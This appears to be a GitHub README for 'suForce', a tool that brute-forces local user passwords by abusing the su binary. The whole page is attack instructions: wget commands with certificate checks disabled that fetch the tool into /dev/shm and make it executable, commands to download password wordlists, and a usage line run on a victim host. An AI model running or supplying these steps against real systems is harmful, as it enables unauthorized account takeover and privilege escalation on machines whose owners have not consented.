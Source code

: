 # suForce

**`suForce` performs `brute force` attacks on user `passwords` by abusing the `su` binary.**

![](/screenshot.png)

- <kbd>Download suForce</kbd>

```cmd
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/suForce"
chmod +x suForce
```

- <kbd>Download Wordlist (Optional)</kbd>

```cmd
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/techyou.txt"
wget --no-check-certificate -q "https://raw.githubusercontent.com/d4t4s3c/suForce/main/top12000.txt"
```

- <kbd>Use</kbd>

```cmd
user@vitim:~$ ./suForce -u <USER> -w <WORDLIST>
```

---

